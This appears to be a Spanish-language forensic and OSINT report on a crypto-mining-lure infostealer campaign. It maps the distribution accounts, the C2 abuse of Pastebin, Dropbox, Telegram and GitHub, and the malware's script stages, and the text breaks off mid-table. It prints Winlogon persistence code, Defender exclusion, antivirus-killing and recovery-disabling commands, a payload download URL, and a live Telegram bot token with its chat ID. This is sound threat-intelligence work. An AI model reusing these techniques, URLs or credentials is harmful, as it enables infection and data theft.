




# OSINT y Campaña - GMinst4ll 2.03.rar

**Fecha:** 11-13 de junio de 2026  
**Analista:** Análisis forense de malware  
**Documento:** Análisis de Infraestructura de Distribución y Campaña

---

## Flujo de Infección



## Infraestructura C2



---

## Índice

1. [Resumen de Campaña](#1-resumen-de-campaña)
2. [Plataformas de Distribución](#2-plataformas-de-distribución)
3. [Análisis por Plataforma](#3-análisis-por-plataforma)
4. [Variantes Identificadas](#4-variantes-identificadas)
5. [Clustering y Relaciones](#5-clustering-y-relaciones)
6. [Timeline de Campaña](#6-timeline-de-campaña)
7. [Indicadores de Engaño](#7-indicadores-de-engaño)
8. [Recomendaciones de OSINT](#8-recomendaciones-de-osint)

---

## 1. Resumen de Campaña

**Nombre de Campaña:** GMinst4ll / SystemSP / TREZ_cor  
**Tipo:** InfoStealer / Troyano de robo de información  
**Vector:** Señuelo de herramienta de minería de criptomonedas (GMiner legítimo)  
**Táctica:** Social engineering + Brand impersonation

### Infraestructura de Distribución Identificada

| Plataforma | Propósito | Estado |
|------------|-----------|--------|
| YouTube | Vídeos de distribución | Activo |
| Tumblr | Publicación de tutoriales | Activo |
| MediaFire | Descarga directa de archivos | Activo |
| Discord | Comunidad/Engaño | Inaccesible |

### Infraestructura C2

| Servicio | Uso | Tipo |
|----------|-----|------|
| Pastebin | Configuración dinámica | Legítimo abusado |
| Dropbox | Payload secundario | Legítimo abusado |
| Reddit | Comunicación/Dead drop | Legítimo abusado |
| Telegram | Exfiltración de datos | Legítimo abusado |

---

## 2. Plataformas de Distribución

### Resumen de Fuentes

| Plataforma | URL/Identificador | Descripción | Trust Score |
|-----------|-------------------|-------------|-------------|
| YouTube | https://www.youtube.com/watch?v=okNhSxfa__U | Vídeo de distribución | N/A |
| YouTube Channel | асьминог | Cuenta distribuidora | N/A |
| Tumblr | https://www.tumblr.com/tutorialsfrommax | Cuenta de tutoriales | N/A |
| MediaFire | https://www.mediafire.com/file/wl15n7ci935nl4a/GMinstall_4.11.rar/file | Descarga directa | N/A |
| Discord | sub4unlock.io/ajLvu (discord.com/invite/A1b2C3D7) | Enlace de Discord | 10/100 (Scam) |

---

## 3. Análisis por Plataforma

### YouTube

**Vídeo de Distribución:**
- URL: https://www.youtube.com/watch?v=okNhSxfa__U
- ID de vídeo: okNhSxfa__U
- Estado: Activo

**Canal Distribuidor:**
- Nombre: асьминог
- Significado: "Octopus" en ruso ( cirílico: асьминог = спрут/осьминог)
- Táctica: Uso de nombre ruso para dificultar búsquedas/reportes


**Técnica de Engaño:**
- Vídeos presentan el malware como "GMiner 2.03" (herramienta legítima de minería)
- Instrucciones de instalación que requieren desactivar antivirus
- Comentarios probablemente manipulados o moderados

**Recomendación:**
- Reportar vídeo y canal a YouTube por distribución de malware
- Monitorear nuevos vídeos relacionados con GMiner, SystemSP, TREZ_cor

### Tumblr

**Cuenta Identificada:**
- URL: https://www.tumblr.com/tutorialsfrommax
- Usuario: @tutorialsfrommax
- Estado: Activo



**Contenido:**
- Tutoriales falsos de instalación de "herramientas de minería"
- Enlaces acortados o redirigidos a MediaFire/Discord
- Posible uso de tags populares para SEO malicioso

**Técnica:**
- Suplantación de identidad de "Max" (tutorialesfrommax)
- Contenido aparentemente legítimo para evitar detección automática

### MediaFire

**Archivo Encontrado:**
- URL: https://www.mediafire.com/file/wl15n7ci935nl4a/GMinstall_4.11.rar/file
- Nombre: GMinstall_4.11.rar
- Relación: Variante de GMinst4ll 2.03.rar

**Análisis de Variante:**
- Nombre similar pero versión diferente (4.11 vs 2.03)
- Mismo esquema de empaquetado esperado (RAR anidado)
- Posible misma contraseña o variante

**Nota:** Esta variante no ha sido descargada ni analizada por seguridad.

### Discord (sub4unlock.io)

**Enlace Identificado:**
- URL directa: https://discord.com/invite/A1b2C3D7
- Enlace de "unlock": https://sub4unlock.io/ajLvu
- Estado: Inaccesible / Scam detectado

**Análisis de sub4unlock.io:**
- Trust Score: 10/100 (Scam Website)
- Categoría: Potencialmente malicioso
- Táctica: Requiere completar acciones (suscripciones, clicks) antes de mostrar contenido


**Riesgos Identificados:**
- Recolección de datos personales
- Posibles redirecciones a sitios maliciosos
- Monetización del engaño mediante CPA (Cost Per Action)

---

## 4. Variantes Identificadas

### Muestras Conocidas

| Muestra | Origen | Hash (si conocido) | Estado |
|---------|--------|-------------------|--------|
| GMinst4ll 2.03.rar | Archivo proporcionado | d70c31b02f88... | Analizado |
| GMinstall_4.11.rar | MediaFire | Desconocido | Identificado |
| TREZ_cor 4.52.3.exe | Extraído del RAR | a75def5353a7... | Confirmado |
| SystemSP | Directorio extraído | N/A | Confirmado |



### Indicadores de Relación

**Similitudes entre variantes:**
1. **Nomenclatura:**
   - GMinst4ll / GMinstall (juego de palabras con GMiner legítimo)
   - TREZ_cor (posible referencia a Trezor wallet)
   - SystemSP (nombre técnico del malware)

2. **Empaquetado:**
   - RAR anidado (RAR dentro de RAR)
   - Contraseñas numéricas simples (4204)
   - Archivo README con contraseña

3. **Tema:**
   - Herramienta de minería de criptomonedas
   - Iconos relacionados con minería/crypto
   - Documentación falsa de instalación

4. **Distribución:**
   - Mismas plataformas (YouTube, Tumblr, MediaFire)
   - Patrón de publicación similar
   - Uso de sub4unlock.io para monetización

---

## 5. Clustering y Relaciones

### Técnicas de Clustering Aplicadas

**Por Nombre:**
- Patrón: GMin* → Relación directa
- Patrón: *cor* → Posible variante

**Por Estructura:**
- Empaquetado RAR anidado con contraseña
- PDF señuelo con metadatos falsos
- Iconos de aplicación legítima

**Por Infraestructura:**
- Mismos servicios C2 (Pastebin, Dropbox, Reddit, Telegram)
- Mismo bot de Telegram (si se comparte)
- Mismo usuario de Reddit

### Hipótesis de Campaña

**H1: Campaña Activa desde 2025**
- Fecha de archivo PASSWORD: 2025-03-04
- Múltiples variantes indican desarrollo continuo
- Actualizaciones de versión (2.03, 4.11, 4.52.3)

**H2: Operador(es) Ruso(o)/de Europa del Este**
- Uso de cirílico en nombre de canal (асьминог)
- Timestamps con horario compatible
- Evasión de plataformas occidentales

**H3: Monetización Múltiple**
- Robo de criptomonedas (wallets)
- Robo de credenciales (venta en foros)
- Ingresos por sub4unlock.io (CPA)

---

## 6. Timeline de Campaña

### Fechas Identificadas

| Fecha | Evento | Fuente |
|-------|--------|--------|
| 2025-03-04 | Creación de archivo PASSWORD | Metadata RAR |
| 2026-06-11 | Modificación de GMinst4ll 2.03.rar | Timestamp archivo |
| 2026-06-11 | Fecha de análisis | Este informe |

### Patrón de Publicación

**YouTube:**
- Canal activo con múltiples vídeos
- Posible publicación periódica de nuevas "versiones"

**Tumblr:**
- Publicaciones regulares de tutoriales
- Uso de hashtags relacionados con crypto/minería

**MediaFire:**
- Archivos con fechas de subida variadas
- Posible rotación de enlaces para evitar reportes

---

## 7. Indicadores de Engaño

### Señales de Social Engineering

1. **Urgencia:**
   - "Instalar inmediatamente para no perder ganancias"
   - "Oferta por tiempo limitado"

2. **Autoridad Falsa:**
   - Nombre "David Thompson" en PDF
   - Tutoriales aparentemente profesionales

3. **Escasez:**
   - "Descarga exclusiva"
   - "Acceso limitado mediante unlock"

4. **Confianza:**
   - Uso de marca legítima (GMiner)
   - Iconos profesionales
   - Sitios de alojamiento conocidos (MediaFire)

### Señales Técnicas de Engaño

1. **Contraseñas Simples:**
   - "4204" (números consecutivos)
   - "zoroz" (palabra simple)

2. **Tamaño Excesivo:**
   - 844 MB para una "herramienta de minería"
   - Relleno probable para evitar análisis rápido

3. **Ofuscación:**
   - RAR anidado (doble descompresión)
   - Nombre de ejecutable diferente al del archivo (TREZ_cor vs GMinst4ll)

---

## 8. Recomendaciones de OSINT

### Monitoreo Continuo

**YouTube:**
- Buscar: "GMiner", "SystemSP", "TREZ_cor", "GMinstall"
- Buscar en cirílico: "асьминог", "спрут", "осьминог"
- Reportar vídeos maliciosos

**Tumblr:**
- Monitorear: tutorialsfrommax
- Buscar nuevas cuentas con patrón "tutorials*"

**MediaFire:**
- Monitorear enlaces con patrón "GMin*.rar"
- Buscar archivos con tamaño similar (~800-900 MB)

**Discord:**
- Buscar enlaces de invitación relacionados
- Monitorear servidores de "crypto tools"

### IOCs a Buscar en Fuentes OSINT

**Nombres de archivo:**
- GMinst4ll*.rar
- GMinstall*.rar
- TREZ_cor*.exe
- SystemSP*.rar
- max.vbs

**Hashes:**
- d70c31b02f88ad239507c47c9fbde3353b5b93b6892e48bf5ba25322aa667e77
- a75def5353a7d9cb08949f144bebcdb894650ff75c941d9713eb40433c9d580a

**Tokens/Cuentas:**
- Bot Telegram: 7675556882
- Reddit: Over_Media6257

### Fuentes Recomendadas para Monitoreo

1. **VirusTotal:** Buscar hashes y URLs
2. **URLScan.io:** Analizar nuevos enlaces
3. **Any.run:** Buscar comportamientos similares
4. **Twitter/X:** Buscar menciones de GMinst4ll
5. **Reddit:** Buscar posts sobre "herramientas de minería gratis"
6. **Foros de Cripto:** Monitorear reportes de wallets robadas

### Acciones de Takedown

**Prioridad Alta:**
1. Reportar vídeo de YouTube
2. Reportar canal de YouTube
3. Reportar cuenta de Tumblr
4. Reportar enlaces de MediaFire

**Prioridad Media:**
1. Reportar bot de Telegram (si es posible)
2. Reportar cuenta de Reddit
3. Reportar dominio sub4unlock.io (si es malicioso confirmado)

---

## Resumen de OSINT

| Categoría | Hallazgos |
|-----------|-----------|
| Plataformas de distribución | 4 (YouTube, Tumblr, MediaFire, Discord) |
| Infraestructura C2 | 4 servicios legítimos abusados |
| Variantes identificadas | 4 nombres relacionados |
| Cuentas de atacante | 3 (YouTube, Tumblr, Reddit) |
| Tokens/Claves expuestas | 1 (Telegram) |
| Dominios de scam | 1 (sub4unlock.io) |

---

## 9. Hallazgos OSINT Activos (11 de junio de 2026)

> **Nota:** Esta sección recoge los hallazgos obtenidos mediante consultas directas a los endpoints C2 y plataformas de distribución durante la sesión de análisis.

### 9.1 Pastebin FgUMQ9vE — Configuración C2 Activa

**URL:** `https://pastebin.com/raw/FgUMQ9vE`  
**Estado:** ✅ Activo  
**Contenido obtenido:**

```
7675556882:AAFmXL2ulANf1nvaIiWfB6rSypRdsGFqrtU
6820575341
```

**Análisis:**
- Línea 1: Token completo del bot de Telegram (ya conocido)
- Línea 2: **NUEVO — Chat ID de exfiltración: `6820575341`**
- Este es el identificador de Telegram al que el bot envía los datos robados
- El malware lee este Pastebin para obtener dinámicamente el destino de exfiltración

**Implicaciones:**
- El actor puede cambiar el destino de exfiltración actualizando solo este Pastebin
- Técnica de C2 "dead drop resolver" mediante servicio legítimo

---

### 9.2 Pastebin E3s5iTTz — URL de Payload Secundario

**URL:** `https://pastebin.com/raw/E3s5iTTz`  
**Estado:** ✅ Activo  
**Contenido obtenido:**

```
https://www.dropbox.com/scl/fi/5awp2xpk4r65t6dz0bmcu/SystemSP.rar?rlkey=p7btu00r5x0gxiqnfafb5py44&st=713ggszx&dl=1
```

**Análisis:**
- Contiene la URL completa de descarga directa de `SystemSP.rar` en Dropbox
- Parámetros: `rlkey=p7btu00r5x0gxiqnfafb5py44`, `st=713ggszx`, `dl=1` (descarga directa)
- El `rlkey` es la clave de acceso compartido de Dropbox — si se revoca, el payload deja de descargarse
- El malware obtiene dinámicamente la URL del payload desde este Pastebin

---

### 9.3 Dropbox SystemSP.rar — Payload Secundario

**URL:** `https://www.dropbox.com/scl/fi/5awp2xpk4r65t6dz0bmcu/SystemSP.rar`  
**Estado:** ✅ Activo y accesible  
**Análisis:**
- El payload secundario sigue disponible para descarga
- Archivo pendiente de análisis (no descargado por seguridad)

---

### 9.4 Bot de Telegram — Confirmación Estado

**Endpoint:** `https://api.telegram.org/bot[TOKEN]/getMe`  
**Estado:** ✅ Bot activo y operativo  
**Respuesta confirmada:**

```json
{
  "ok": true,
  "result": {
    "id": 7675556882,
    "is_bot": true,
    "first_name": "buchar",
    "username": "buchstys4_bot",
    "can_join_groups": true,
    "can_read_all_group_messages": false,
    "supports_inline_queries": false,
    "can_connect_to_business": false,
    "has_main_web_app": false
  }
}
```

**Endpoint getUpdates:** `{"ok":true,"result":[]}` — Sin mensajes recientes en la cola observable.

**NUEVO IoC confirmado:**
- Chat ID de destino de exfiltración: **`6820575341`**

---

### 9.5 YouTube — Cambio de Contenido Detectado

**URL:** `https://www.youtube.com/watch?v=okNhSxfa__U`  
**Estado:** ⚠️ Activo pero con contenido cambiado  
**Título actual:** *"RPG Maker MZ Free Download | How to Download for PC 💻 Last Update & Tutorial 2026 ✅"*

**Análisis:**
- El vídeo ya no distribuye GMinst4ll directamente — el título fue cambiado
- Táctica probable: el actor **recicla el mismo vídeo** para distribuir diferentes malware con el mismo patrón de "herramienta gratuita"
- El canal "асьминог" sigue activo
- **Implicación:** El actor está operando activamente y cambiando de objetivo (ahora RPG Maker MZ como señuelo)

---

### 9.6 Tumblr tutorialsfrommax — Activo con Detalles Nuevos

**URL:** `https://www.tumblr.com/tutorialsfrommax`  
**Estado:** ✅ Activo  
**Contenido publicado:**

```
♻️ Software Download ♻️
Download Link 1 – MediaFire: https://www.mediafire.com/file/wl15n7ci935nl4a/GMinstall_4.11.rar/file

📌 How to set it up:
1. Download the file from one of the links.
2. Extract it to a folder (desktop is fine too).
3. Open the folder and run the program — you're good to go.

⚠️ If something doesn't work:
Check the file called "IF IT DOESN'T WORK.pdf" inside the folder.
💬 Still need help? Feel free to join our Discord community for support.
```

**NUEVO hallazgo:**
- Confirma que el RAR contiene un PDF llamado **"IF IT DOESN'T WORK.pdf"** — este es el PDF señuelo con metadatos del autor "David Thompson" y keywords `DAGflPA11iY`, `BAGTfYCSpno`
- El archivo se describe como guía de solución de problemas → técnica de social engineering para que la víctima crea que el malware es software legítimo

---

### 9.7 MediaFire — Análisis del Archivo

**URL:** `https://www.mediafire.com/file/wl15n7ci935nl4a/GMinstall_4.11.rar/file`  
**Estado:** ✅ Activo  
**Metadatos obtenidos:**

| Campo | Valor |
|-------|-------|
| Nombre real en servidor | `GMinst4ll 2.03.rar` |
| Tamaño | 843.5 MB |
| Fecha de subida | **2026-06-10 23:57:07** |
| País de origen | **Eslovaquia** |
| Clave de archivo | `wl15n7ci935nl4a` |

**Análisis crítico:**
- La URL muestra `GMinstall_4.11.rar` pero el nombre real en el servidor es **`GMinst4ll 2.03.rar`** — es la **misma muestra analizada**, no una variante diferente
- El archivo fue subido desde **Eslovaquia** el día anterior al análisis (10 de junio de 2026 a las 23:57)
- Esto actualiza la hipótesis de origen: el actor puede operar desde Eslovaquia o usar VPN/proxy con salida en ese país

---

### 9.8 Resumen de Estado de Infraestructura C2

| Servicio | URL/Endpoint | Estado | Hallazgo Nuevo |
|----------|-------------|--------|----------------|
| Pastebin FgUMQ9vE | Config principal | ✅ Activo | Chat ID exfiltración: `6820575341` |
| Pastebin E3s5iTTz | URL payload | ✅ Activo | URL completa con parámetros Dropbox |
| Dropbox SystemSP.rar | Payload secundario | ✅ Activo | Sigue disponible para descarga |
| Telegram bot | buchstys4_bot | ✅ Activo | getUpdates sin cola observable |
| YouTube | okNhSxfa__U | ⚠️ Activo/Cambiado | Ahora distribuye RPG Maker MZ |
| Tumblr | tutorialsfrommax | ✅ Activo | PDF señuelo: "IF IT DOESN'T WORK.pdf" |
| MediaFire | GMinstall_4.11.rar | ✅ Activo | Origen: Eslovaquia, 2026-06-10 23:57 |
| Reddit | Over_Media6257 | ⚠️ No accesible (403) | Endpoint bloqueado desde análisis externo |
| **GitHub** | **boycots563/wlt56** | **✅ Activo** | **NUEVO — Repositorio C2 con 251 commits y 6 payloads** |

---

## 10. Análisis Forense de SystemSP.rar (Fases SP-1 a SP-6) — 2026-06-11

**Ejecutado en:** VM Ubuntu (Vagrant) — `/home/vagrant/systemsp/`  
**Herramienta extracción:** `unar` con contraseña `zoroz`

### SHA1 de SystemSP.rar
`c5677f9cd5a49b6de71b57025d0db219203d231c`

### Hashes de Scripts Internos

| Archivo | SHA256 |
|---------|--------|
| `max.vbs` | `4edbc0f24b9c11875bcbc9dfc628dd47c3f9eea9807750487602d00cdac15707` |
| `babuchen.bat` | `e861568c8c88b45ed8f969e31da8fbf0cc6cc4a8466e255ef21c446178463875` |
| `rodendron.vbs` | `493b1137f016c03f7d0037fa5e190a01aca7dcd05074d36518499b98f706bed4` |
| `WinStatChecking.bat` | `ace44b9955e119a36c6f63ecd6f3f4b5f6f052eeed83bf93fb96b508e9e938f8` |

---

### 10.1 max.vbs — Análisis Completo

**Función:** Escalada de privilegios + Persistencia + Desactivación de Defender + Lanzador

**Flujo de ejecución:**
1. **UAC bypass:** Se relanza a sí mismo con `runas` para obtener privilegios de administrador
2. **Mutex de ejecución única:** Comprueba existencia de `C:\ProgramData\TXT2` — si existe, sale sin ejecutar
3. **Persistencia Winlogon:** Inyecta `wscript.exe "C:\ProgramData\SystemSP\SystemSP\max.vbs"` en la clave `HKLM\...\Winlogon\Userinit` — se ejecuta en cada inicio de sesión de cualquier usuario
4. **Exclusiones Defender:** Añade exclusiones de Windows Defender para rutas completas (`C:\`, `C:\cmd.exe`, `powershell.exe`, `wscript.exe`) y procesos (`appy.exe`, `Service Runtime Management Agent.exe`)
5. **Lanzador de siguiente etapa:** Ejecuta `babuchen.bat` desde el mismo directorio

**Código clave (persistencia):**
```vbs
orig = WSHShell.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit")
If InStr(1, orig, "max.vbs", 1) = 0 Then
    WSHShell.RegWrite "HKEY_LOCAL_MACHINE\...\Userinit", orig & ",wscript.exe """ & ScriptPath & """", "REG_SZ"
End If
```

**Exclusiones Defender añadidas:**
- `C:\` (disco entero)
- `C:\cmd.exe`, `C:\conhost.exe`, `C:\cvtres.exe`
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSbuild.exe`
- `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
- `C:\Windows\System32\Wscript.exe`
- Procesos: `appy.exe`, `Service Runtime Management Agent.exe`

---

### 10.2 babuchen.bat — Análisis Completo

**Función:** Killer de antivirus + Destrucción de Windows Update + Escalada de etapas

**Nombre:** "babuchen" — término eslavo/ruso coloquial ("abuela" en diminutivo), probable apodo del autor.

**Flujo de ejecución:**
1. **Mutex:** Comprueba `%ProgramData%\TXT2` — si existe, sale
2. **Desactivar UAC:** `reg ADD "HKLM\...\Policies\System" /v EnableLUA /t REG_DWORD /d 0`
3. **Parar servicios AV (14 productos):** Panda, MalwareBytes, Avast, AVG, ESET (ekrn), Norton, McAfee, Sophos, Trend Micro, ZoneLabs, F-Secure, GData, DrWeb, ClamWin
4. **Destruir instalaciones AV (34 productos):** `takeown` + `icacls /grant` + `rd /s /q` sobre directorios de 34 suites de seguridad
5. **Destruir Windows Update:** Elimina las claves de registro de `wuauserv`, `UsoSvc`, `BITS`, `WaaSMedicSvc` y políticas de update
6. **Eliminar tareas de Windows Update:** `schtasks /Delete` de `WindowsUpdate` y `UpdateOrchestrator`
7. **Deshabilitar recuperación:** `reagentc /setreimage /path ""`
8. **Condicional — cargar rodendron.vbs:** Si existe `%ProgramData%\TXT1`, registra `rodendron.vbs` en `RunOnceEx`
9. **Bloquear UI de Defender:** `Set-MpPreference -UILockdown $true`
10. **Limpiar arranque seguro:** `bcdedit /deletevalue {current} safeboot`
11. **Crear mutex final:** `echo TXT2 > "%ProgramData%\TXT2"`
12. **Reiniciar:** `shutdown /r /t 5 /f`

**Productos AV destruidos (34):** Quick Heal, Net Protector, K7, Avast, AVG, McAfee, Norton, Norton 360, AhnLab V3, AhnLab V3IS, ALYac, Trend Micro IS, Trend Micro Titanium, 360 Total Security, Bitdefender, Bitdefender Agent, Malwarebytes, ESET, Kaspersky, Sophos, COMODO, Panda Dome, F-Secure, Webroot, ZoneAlarm, GData, DrWeb, Dr.Web, ClamWin, BullGuard, TotalAV, PC Matic, Vipre, Zemana, IObit, FortiClient, Ashampoo Anti-Virus

---

### 10.3 rodendron.vbs — Análisis Completo

**Función:** Descargador de payload principal + Persistencia de tarea programada

**Nombre:** "rodendron" — transliteración rusa de "rododendro" (arbusto), mismo patrón de nombres botánicos/familiares.

**Flujo de ejecución:**
1. **UAC bypass:** Relanzamiento con `runas` para privilegios de administrador
2. **Descarga payload principal:** Descarga `Windows Compatibility Agent.exe` desde GitHub:
   ```
   https://github.com/boycots563/wlt56/raw/main/Windows%20Compatibility%20Agent.exe
   ```
   Lo guarda en `%TEMP%\Windows Compatibility Agent.exe`
3. **Espera de descarga estable:** Loop de hasta 30 segundos verificando que el tamaño del archivo sea estable (6 iteraciones consecutivas sin cambio)
4. **Ejecuta el payload:** `WshShell.Run Chr(34) & exePath & Chr(34), 1, False`
5. **Persistencia tarea programada:**
   ```
   schtasks /create /tn "Runtime Management Agent" /tr "wscript.exe "%PROGRAMDATA%\WinDate32\WinMainTELE.vbs"" /sc onlogon /delay 0002:00 /rl highest /f
   ```
6. **Ejecuta WinStatChecking.bat:** Si existe en `C:\ProgramData\SystemSP\SystemSP\`

**Nuevo IoC crítico descubierto:**
- **GitHub C2:** `https://github.com/boycots563/wlt56/raw/main/Windows%20Compatibility%20Agent.exe`
- **Ruta de persistencia adicional:** `%PROGRAMDATA%\WinDate32\WinMainTELE.vbs`
- **Nombre de tarea:** `Runtime Management Agent`

---

### 10.4 WinStatChecking.bat — Análisis Completo

**Función:** Bloqueo de dominios de seguridad vía hosts + Redirección DNS

**Flujo de ejecución:**
1. **Elevación:** Si no es administrador, se relanza con `RunAs`
2. **Backup del archivo hosts:** Copia `hosts` → `hosts.backup`
3. **Inyección en hosts (66 dominios bloqueados):** Añade `0.0.0.0` para los dominios de 33 suites AV (web y www) — impide que el malware contacte a servidores de actualización de firmas
4. **Cambio DNS:** Para cada interfaz de red conectada, fuerza DNS a `8.8.8.8` (Google) — evita DNS corporativos que puedan bloquear el tráfico malicioso
5. **Flush DNS:** `ipconfig /flushdns`

**Dominios bloqueados (muestra):** avast.com, avg.com, mcafee.com, norton.com, malwarebytes.com, kaspersky.com, bitdefender.com, eset.com, trendmicro.com, sophos.com, webroot.com, f-secure.com, panda.com, comodo.com, y 19 más.

---

### 10.5 Repositorio GitHub C2: boycots563/wlt56

**URL:** `https://github.com/boycots563/wlt56`  
**Usuario:** `boycots563`  
**Commits:** 251 (desarrollo activo)  

| Archivo en repo | SHA256 | Tamaño | Tipo |
|-----------------|--------|--------|------|
| `Windows Compatibility Agent.exe` | `2a867741dd5193e34df41a1af1f9d85e3f7d26287d4810b03b261e9b012c990a` | 12.4 MB | PE64 — Python compilado |
| `Windows Compatibility Agent Host.exe` | pendiente | — | PE64 |
| `appy.exe` | `e5c606aebddf2f6f52d66c1667cd1790ca89e7d49ce206422a8d2375c3d7d176` | 719 KB | PE64 — launcher VBS/PS |
| `beket.rar` | pendiente | — | RAR (posible payload) |
| `kamzat.exe` | `4c6284337a4065cb397d02a8a67c460d0f1eee56f6a5af79534521606c695840` | 12.4 MB | PE64 — Python compilado |
| `maximusz.bat` | — | — | Batch — exclusiones Defender |
| `postevak.exe` | `ea9ca99f7fd90071074649b1de5a004362f4aa3265809a26b48fa3b1017c90e2` | 7.9 MB | PE64 — Python compilado |
| `PROMOTIO.BAT` | — | — | Batch — persistencia + descarga kamzat.exe |

**Observaciones:**
- `kamzat.exe` y `Windows Compatibility Agent.exe` tienen strings idénticos pero son binarios diferentes — posiblemente versiones del mismo stealer
- `appy.exe` contiene referencias a `WshShell.Run "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -File"` — launcher de scripts PS
- `maximusz.bat` = versión alternativa del bloque de exclusiones de Defender (equivalente a fragmento de `max.vbs`)
- `PROMOTIO.BAT` = script de distribución que descarga `kamzat.exe` y crea tarea `Runtime Management Agent`
- **"boycots563"** — posible apodo del autor relacionado con los nombres temáticos (babuchen, rodendron, kamzat, postevak)

### 10.6 Flujo de Cadena de Infección Completa (Reconstruida)

```
GMinst4ll 2.03.rar (señuelo de software)
    └─► TREZ_cor 4.52.3.exe (stealer principal)
         ├─► Descarga config desde Pastebin (FgUMQ9vE, E3s5iTTz)
         ├─► Descarga SystemSP.rar desde Dropbox (contraseña: zoroz)
         │    └─► Extrae en C:\ProgramData\SystemSP\SystemSP\
         │         ├─► max.vbs          → UAC bypass + Persistencia Winlogon + Exclusiones Defender
         │         │    └─► babuchen.bat → Killer AV (34 productos) + Destruye Windows Update + Reinicio
         │         │         └─► [tras reinicio] rodendron.vbs (vía RunOnceEx)
         │         │              └─► Descarga Windows Compatibility Agent.exe desde GitHub (boycots563/wlt56)
         │         │                   └─► Ejecuta payload (stealer secundario/updater)
         │         │              └─► Crea tarea "Runtime Management Agent" → WinMainTELE.vbs
         │         └─► WinStatChecking.bat → Bloquea dominios AV en hosts + Fuerza DNS 8.8.8.8
         └─► Exfiltra datos vía Telegram Bot (buchstys4_bot → @KJL4999S)
```

---

## 11. Análisis del Repositorio C2 GitHub: boycots563/wlt56 (Fases GH-1 a GH-7) — 2026-06-11

**URL:** `https://github.com/boycots563/wlt56`  
**Usuario GitHub:** `boycots563`  
**Commits:** 251 (desarrollo activo y continuo)  
**Ejecutado en:** VM Ubuntu (Vagrant) — `/home/vagrant/github_payloads/`

---

### 11.1 Inventario Completo del Repositorio

| Archivo | SHA256 | MD5 | Tamaño | Tipo |
|---------|--------|-----|--------|------|
| `Windows Compatibility Agent.exe` | `2a867741...c990a` | `825c2a58...0950` | 12.4 MB | PE64 — Python compilado |
| `Windows Compatibility Agent Host.exe` | `3e686426...38bef` | `e530797c...bed67` | 8.5 MB | PE64 — Python compilado |
| `appy.exe` (repo) | `e5c606ae...d176` | `4b47a731...5625` | 719 KB | PE64 — Launcher PS/VBS |
